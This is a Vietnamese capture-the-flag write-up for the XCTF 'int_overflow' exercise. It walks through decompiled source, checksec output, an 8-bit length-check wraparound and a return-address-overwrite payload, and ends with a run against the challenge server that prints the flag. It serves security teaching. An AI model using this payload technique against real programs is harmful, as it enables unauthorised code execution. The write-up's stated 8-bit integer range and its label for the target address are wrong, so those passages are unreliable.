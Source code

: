 # XCTF - PWN Exercise - int_overflow

```c
#include<stdio.h>

int what_is_this()
{
  return system("cat flag");
}

char *__cdecl check_passwd(char *s)
{
  char dest[11]; // [esp+4h] [ebp-14h] BYREF
  unsigned __int8 v3; // [esp+Fh] [ebp-9h]

  v3 = strlen(s);
  if ( v3 <= 3u || v3 > 8u )
  {
    puts("Invalid Password");
    return (char *)fflush(stdout);
  }
  else
  {
    puts("Success");
    fflush(stdout);
    return strcpy(dest, s);
  }
}

int login()
{
  char buf[512]; // [esp+0h] [ebp-228h] BYREF
  char s[40]; // [esp+200h] [ebp-28h] BYREF

  memset(s, 0, 0x20u);
  memset(buf, 0, sizeof(buf));
  puts("Please input your username:");
  read(0, s, 0x19u);
  printf("Hello %s\n", s);
  puts("Please input your passwd:");
  read(0, buf, 0x199u);
  return check_passwd(buf);
}

int __cdecl main(int argc, const char **argv, const char **envp)
{
  int v4; // [esp+Ch] [ebp-Ch] BYREF

  setbuf(stdin, 0);
  setbuf(stdout, 0);
  setbuf(stderr, 0);
  puts("---------------------");
  puts("~~ Welcome to CTF! ~~");
  puts("       1.Login       ");
  puts("       2.Exit        ");
  puts("---------------------");
  printf("Your choice:");
  __isoc99_scanf("%d", &v4);
  if ( v4 == 1 )
  {
    login();
  }
  else
  {
    if ( v4 == 2 )
    {
      puts("Bye~");
      exit(0);
    }
    puts("Invalid Choice!");
  }
  return 0;
}
```

Kiếm tra các flag secure trước.

```
l1j9m4 in ~/0_PWNable/ADworld_XCTF/Exersice/3_int_overflow λ checksec int_overflow
[*] '/home/l1j9m4/0_PWNable/ADworld_XCTF/Exersice/3_int_overflow/int_overflow'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
```

Xem qua tất cả các hàm chúng ta thấy có hàm `what_is_this()` thực thi đọc flag mà không có hàm nào gọi đến nó cả nên mục tiêu là ghi đè địa chỉ trả về của một hàm nào đó bằng địa chỉ của hàm `what_is_this()` (vì không có `Canary` nên ý tưởng ban đầu cơ bản là như vậy). Hàm `login()` cơ bản là nhập vào username và passwd sau đó passwd là đối số cho hàm `check_passwd(buf)`. Vấn đề nằm ở đây, vì vị trí của `username` và `passwd` trên stack được cấp phát khá lớn nên không thể cố nhập tràn rồi ghi đề return address nhưng ở hàm `check_passwd(buf)`, v3 là độ dài của `passwd` và nếu v3 thỏa mãn `v3 <= 3u || v3 > 8u` thì chuỗi `passwd` sẽ được coppy sang biến `dest[11]` nằm ở [ebp-14h] => có thể stack buffer overflow rồi ghi đè return address của hàm `check_passwd(buf)` do độ dài của buf[512] chính là `passwd`.

Bây giờ ta có payload = "A" * 0x18 + p32(0x804868b) - `0x804868b là địa chỉ của check_passwd(buf)` có độ dài là 28 > 8. Như vậy là không thỏa mãn check_passwd.

Bài này xuất hiện lỗ hổng `int overflow` hay là tràn số nguyên.

Biến v3 khai báo `unsigned __int8` nghĩa là có độ dài 8 bit. Các loại biến số nguyên khác nhau thì có phạm vi giá trị khác nhau, nếu giá trị chúng ta nhập vào nằm trong phạm vi hợp lý thì không sao, nhưng nếu giá trị nhập vào vượt quá phạm vi giá trị thì sẽ xảy ra hiện tượng tràn số nguyên. Máy tính sẽ đọc giá trị mặc định là phần sau của giá trị đầu vào. 

Ví dụ: giá trị của 8 bit int là `-255 ~ 255`. Nếu đầu vào 256, 255 tương ứng với nhị phân `1111 1111` và 256 tương ứng với nhị phân `1 0000 0000`. Khi máy tính gặp 256, nó sẽ mặc định ở phần sau 8 bit là `0000 0000` vì vậy 256 sẽ được công nhận giống 0 cũng có 8 bit sau là `0000 0000` và cứ như vậy 257 là 1, 258 là 2,...

Vậy như bài trên ta thấy giá trị `v3` thỏa mãn là `3 < v3 <= 8` tương ứng với `259 = 256 + 3 < v3 <= 256 + 8 = 264` (ở đây 256 được máy tính hiểu là số 0 do tràn số nguyên). 

Ta chọn v3 = 260, khi đó payload sẽ là `payload = "A" * 0x18 + p32(0x804868b) + "A" * 232`.

Tiến hành viết file [exploit.py](exploit.py) và khai thác:

```
l1j9m4 in ~/0_PWNable/ADworld_XCTF/Exersice/3_int_overflow λ python2 exploit.py 
[+] Opening connection to 111.200.241.244 on port 56460: Done
[+] Receiving all data: Done (53B)
[*] Closed connection to 111.200.241.244 port 56460
Success
cyberpeace{1677f09f699e94d2b65653d19ab2ddb5}

[*] Switching to interactive mode
[*] Got EOF while reading in interactive
$  
```

